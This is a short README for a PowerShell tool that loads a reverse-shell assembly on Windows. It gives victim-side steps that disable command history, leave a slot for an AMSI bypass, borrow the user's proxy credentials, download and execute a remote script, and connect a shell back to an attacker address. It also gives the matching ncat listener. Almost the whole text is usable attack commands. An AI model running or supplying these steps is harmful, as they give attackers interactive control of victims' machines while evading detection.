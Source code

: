 # Invoke-ConTtyShell
.Net Assembly loader for the [ConTtyShell](https://github.com/ricardojba/ConTtyShell)


Tested on:
* Windows 10 22H2 x64
* Windows 11 22H2 x64

Victim side usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-ConTtyShell/main/Invoke-ConTtyShell.ps1')

Invoke-ConTtyShell -Command "attacker-ip 6666"
```

Attacker side usage:

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666
```
